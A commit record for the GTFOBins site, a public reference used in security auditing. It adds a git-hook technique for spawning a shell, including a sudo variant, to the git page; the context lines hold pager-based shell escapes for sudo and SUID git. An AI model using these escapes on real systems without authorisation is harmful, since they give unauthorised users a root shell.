

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add git hooks shell
Closes #77 as it provides a working example and a possibly better hook. Thanks
to jivex5k <wgehalo@gmail.com> for the initial proposal.

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -6,6 +6,13 @@ functions:
       code: |
         git help config
         !/bin/sh
+    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
+      code: |
+        TF=$(mktemp -d)
+        git init "$TF"
+        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
+        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
+        git -C "$TF" commit --allow-empty -m x
   sudo:
     - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
     - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
@@ -16,6 +23,13 @@ functions:
       code: |
         sudo git branch --help config
         !/bin/sh
+    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
+      code: |
+        TF=$(mktemp -d)
+        git init "$TF"
+        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
+        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
+        sudo git -C "$TF" commit --allow-empty -m x
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
